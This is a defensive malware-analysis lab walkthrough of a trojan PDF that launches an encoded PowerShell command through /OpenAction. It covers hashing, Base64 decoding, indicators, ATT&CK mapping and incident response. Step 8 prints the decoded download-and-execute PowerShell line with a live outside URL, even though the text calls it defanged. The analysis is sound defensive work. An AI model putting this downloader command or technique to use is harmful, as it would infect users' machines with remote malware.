










# Malware Analysis: Trojan PDF Downloader

> **Lab:** INE — Malware Analysis: Trojan  
> **Environment:** Debian sample-hosting machine and REMnux analysis workstation  
> **Analysis type:** Static analysis  
> **Status:** Lab sample analyzed; do not execute the file on a production system.

## Overview

This walkthrough examines a suspicious PDF (`info.pdf`) that masquerades as a normal document. Static inspection reveals a PDF `/OpenAction` that launches PowerShell with an encoded command. The decoded command attempts to download an executable from a remote URL, save it under the user's AppData directory, and start it.

The observed behavior is consistent with a **malicious PDF downloader/dropper**. The screenshots document the lab workflow and evidence. The screenshots and supplied notes do not establish that the secondary executable was successfully retrieved or executed, so those outcomes are not claimed here.

## Objectives

- Transfer the supplied archive to the REMnux workstation in the isolated lab.
- Record a hash for sample identification.
- Review the available VirusTotal report by hash.
- Extract and decode Base64 content embedded in the PDF.
- Identify suspicious PDF auto-action and PowerShell behavior.
- Record indicators, ATT&CK mappings, and defensive recommendations.

## Lab safety

- Keep the sample inside the authorized, isolated lab.
- Do **not** open the suspicious PDF in a normal PDF viewer or execute its command.
- Treat the URL and file indicators below as untrusted.
- The certificate warning shown is for the lab's internal REMnux portal. Only proceed if this is the expected, authorized training environment.
- VirusTotal results in the screenshot refer to a file named `site.pdf`; do not assume it is the exact same sample as `info.pdf` unless hashes are verified to match.

## Investigation steps

### 1. Host the provided archive

On the Debian lab machine, move to the directory containing `info.zip` and start a simple HTTP server:

```bash
cd ~/Desktop/"Lab Resources"
ls -l
python3 -m http.server 8000
```

The server listens on port 8000. Keep it running while retrieving the file from the REMnux workstation.



### 2. Access the REMnux workstation

Open the authorized lab REMnux portal at `https://remnux.ine.local:6901`. The screenshots show a browser certificate-authority warning for this internal lab host. Continue only in the expected training environment and according to lab instructions.





### 3. Identify the lab host address and retrieve the archive

On the Debian machine, identify the interface address:

```bash
ifconfig
```

The supplied screenshot shows `172.17.0.1` on `docker0` and `10.160.0.40` on `ens5`. The lab walkthrough uses `172.17.0.1` as the HTTP server address; use the address reachable from the REMnux environment in your own session.

On REMnux:

```bash
wget http://172.17.0.1:8000/info.zip
ls -l
unzip info.zip
ls -l
file info.pdf
```

Use only the lab network and the provided sample.



### 4. Calculate a sample hash

Calculate the MD5 hash for identification and comparison:

```bash
md5sum info.pdf
```

The supplied lab screenshot shows the MD5 value:

`f0e55995b81e974e9df4d1c060bc4bcc`

A hash is a useful sample identifier, but MD5 is not collision-resistant and should not be used as a modern integrity guarantee. For new investigations, also calculate SHA-256:

```bash
sha256sum info.pdf
```



### 5. Review available reputation data

The lab notes describe searching VirusTotal by hash because the REMnux lab environment does not have internet access. A supplied screenshot shows a VirusTotal result for `site.pdf` with **39/64 vendors** detecting it and labels including Trojan, downloader, PowerShell, and PoweCode.

**Evidence limitation:** The screenshot's filename is `site.pdf`, while the lab sample is `info.pdf`; the screenshot alone does not prove the files have the same hash. Verify the hash before associating that detection result with `info.pdf`. Vendor detections are useful context, not proof by themselves.



### 6. Enumerate embedded Base64 data

Use Didier Stevens' `base64dump.py` to enumerate Base64-like streams in the PDF:

```bash
base64dump.py info.pdf
```

The lab screenshot shows object/stream ID `2` with a decoded size of `604` bytes and a string beginning with a readable fragment resembling `PowerShell`. This is a strong lead for further static inspection, but size alone does not establish maliciousness.


Decode the identified stream to inspect it as data. Do not execute the resulting command:

```bash
base64dump.py info.pdf -s 2 -d
```

The captured output reveals a PowerShell command containing options such as `-ExecutionPolicy bypass`, `-NoProfile`, `-WindowStyle hidden`, and a download-and-start sequence.



### 7. Inspect the PDF action

The raw PDF view in SciTE shows a PDF `/OpenAction` referring to a Windows PowerShell executable and using `-EncodedCommand`. A PDF open action can cause an action to be triggered when the document is opened in a compatible reader, depending on reader behavior and security controls.

For a safer command-line inspection, use text/metadata tools rather than launching the document in a viewer:

```bash
strings -a info.pdf | less
pdfid.py info.pdf
```

The screenshot is evidence of a suspicious auto-action and an encoded PowerShell invocation. This is not evidence that the payload ran on a Windows host.



### 8. Decode the PowerShell command for analysis only

PowerShell `-EncodedCommand` content is typically Base64-encoded UTF-16LE text. The supplied lab screenshot demonstrates decoding the encoded string and converting the result into readable text. For your own extracted string, use a file or shell variable rather than copying a potentially malformed string from a screenshot.

Example safe decoding pattern (replace the placeholder with the extracted Base64 text; this only decodes text and does not execute it):

```bash
printf '%s' 'PASTE_BASE64_TEXT_HERE' | base64 -d | iconv -f UTF-16LE -t UTF-8
```

The lab output indicates a command structurally similar to:

```powershell
PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (
  New-Object System.Net.WebClient
).DownloadFile('http://ncduganda.org/.css/awori.exe', "$env:APPDATA\awori.exe");
Start-Process "$env:APPDATA\awori.exe"
```

This is reproduced as **defanged, non-executable analysis evidence**. Do not visit the URL or retrieve/run the payload. The exact command in the screenshot contains encoding artifacts, so validate the complete string from the original sample before treating every character as authoritative.





## Findings

### Behavioral summary

1. **Document masquerading:** The sample is presented as a PDF document.
2. **Automatic action:** The PDF contains an `/OpenAction` associated with launching PowerShell.
3. **Obfuscated execution:** PowerShell is invoked with an encoded command, hidden-window behavior, and execution-policy bypass options.
4. **Payload retrieval:** The decoded command attempts to download `awori.exe` from a remote HTTP URL.
5. **Payload staging:** The command specifies the current user's AppData directory as the destination.
6. **Execution attempt:** The command then calls `Start-Process` on the staged executable.

These are findings from static inspection of the command. The screenshots do **not** confirm that the URL was reachable, that the file was downloaded, or that it successfully executed.

## Indicators of compromise (IOCs)

| Type | Value | Confidence / notes |
|---|---|---|
| Filename | `info.pdf` | Lab sample name |
| MD5 | `f0e55995b81e974e9df4d1c060bc4bcc` | Value shown in the lab screenshot; verify against the exact sample |
| URL | `hxxp://ncduganda[.]org/.css/awori.exe` | Defanged URL extracted from the displayed command; validate against the original sample |
| Filename | `awori.exe` | Intended downloaded payload name |
| Path | `%APPDATA%\awori.exe` | Destination specified by the command |
| Process | `powershell.exe` | Invoked through PDF `/OpenAction` with `-EncodedCommand` |
| PDF feature | `/OpenAction` | Suspicious automatic action |
| PowerShell flags | `-ExecutionPolicy bypass`, `-NoProfile`, `-WindowStyle hidden`, `-EncodedCommand` | Suspicious combination in this context |

**Do not block or attribute based on a single indicator without validating it in your environment.** The URL and domain should be treated as untrusted lab evidence, not proof of current malicious infrastructure.

## MITRE ATT&CK mapping

| Technique | ID | Evidence / rationale |
|---|---|---|
| User Execution: Malicious File | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The scenario relies on a user opening a disguised document; actual user execution is not demonstrated by the static evidence. |
| Command and Scripting Interpreter: PowerShell | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | The PDF action invokes PowerShell. |
| Obfuscated Files or Information | [T1027](https://attack.mitre.org/techniques/T1027/) | The command is Base64-encoded to conceal its content. |
| Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) | The command attempts to retrieve a remote executable. |
| Hide Artifacts: Hidden Window | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) | `-WindowStyle hidden` is used in the command. This is a command-line behavior, not proof of successful concealment. |

ATT&CK mappings describe the behavior suggested by the evidence; they do not independently prove that every technique succeeded.

## Detection and incident-response recommendations

### Detection opportunities

- Alert on PDF readers spawning `powershell.exe`, especially with `-EncodedCommand`, `-WindowStyle hidden`, or execution-policy bypass flags.
- Monitor PowerShell process creation and script-block logging where appropriate (Windows Security Event 4688, PowerShell Operational logs such as Event IDs 4103/4104, depending on enabled policy and configuration).
- Monitor outbound HTTP requests to newly observed or untrusted domains, and downloads of executables into user-writable locations such as `%APPDATA%`.
- Correlate process lineage, file creation, DNS/proxy records, endpoint telemetry, and timestamps instead of relying on one string or hash.
- Use a secure email/web gateway and endpoint protection to inspect or quarantine suspicious PDF attachments.

### If this were found on a real endpoint

1. Isolate the affected endpoint from the network according to incident-response policy.
2. Preserve the PDF, relevant logs, process telemetry, browser/email evidence, and timestamps.
3. Search endpoint telemetry for `powershell.exe`, the suspicious command-line flags, `awori.exe`, the target URL/domain, and related file hashes.
4. Determine whether the payload was downloaded or launched; do not assume success from the static command alone.
5. If execution is confirmed, investigate persistence, child processes, network connections, credential access, and lateral movement.
6. Quarantine confirmed malicious artifacts, block validated indicators, eradicate persistence, and rebuild/recover the host if warranted.
7. Reset credentials only when exposure is plausible or confirmed, and document the scope and remediation.
8. Record lessons learned and update detections.

## Conclusion

This lab demonstrates how a document that appears to be an ordinary PDF can contain a suspicious automatic action and an encoded PowerShell downloader. Hashing, Base64 stream enumeration, PDF structure inspection, and safe decoding revealed the intended behavior without needing to execute the sample.

The strongest conclusion supported by the evidence is that the PDF contains a **malicious downloader/dropper command** intended to retrieve and launch a secondary executable. Successful download or execution remains unverified in the provided evidence.

## References

- [MITRE ATT&CK](https://attack.mitre.org/)
- [VirusTotal](https://www.virustotal.com/)
- [REMnux documentation](https://docs.remnux.org/)
- [Didier Stevens Suite](https://github.com/DidierStevens/DidierStevensSuite)

---

*Prepared as a defensive malware-analysis lab walkthrough. All sample handling should remain within an authorized, isolated environment.*
